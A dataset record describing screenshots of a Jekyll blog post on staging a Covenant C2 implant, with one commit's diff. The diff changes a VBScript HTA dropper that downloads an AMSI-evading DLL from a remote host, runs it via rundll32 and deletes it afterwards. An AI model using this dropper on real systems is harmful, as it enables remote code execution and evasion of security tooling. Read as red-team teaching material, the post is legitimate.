

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from _posts/2021-07-01-Entering-the-Covenant-C2C.md, in a window 1280 px wide and 1400 px high, scrolled down 17166 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2021-07-01-Entering-the-Covenant-C2C.md

```diff
--- a/_posts/2021-07-01-Entering-the-Covenant-C2C.md
+++ b/_posts/2021-07-01-Entering-the-Covenant-C2C.md
@@ -643,7 +643,7 @@ First of all we need to craft our HTA (first stage) file that will deliver our G
 ' ===================================
 ' Download Clause
 ' Tested with binaries - works!
-HTTPDownload "http://192.168.152.100:1234/covenant-DLL-noAmsi.dll", "C:\Windows\Tasks"
+HTTPDownload "http://192.168.152.100:1234/covenant-DLL-noAmsi.dll", "C:\tmp"
 
 Sub HTTPDownload( myURL, myPath )
 
@@ -691,7 +691,7 @@ End Sub
 Dim sh
 Set sh = CreateObject("Wscript.Shell")
 Call sh.Run("rundll32 covenant-DLL-noAmsi.dll,MonkEntry")
-target_folder = "C:\Windows\Tasks"
+target_folder = "C:\tmp"
 Set fs = CreateObject("Scripting.Filesystemobject")
 fs.DeleteFile( target_folder & "\*.dll" )
 Set sh = Nothing
```
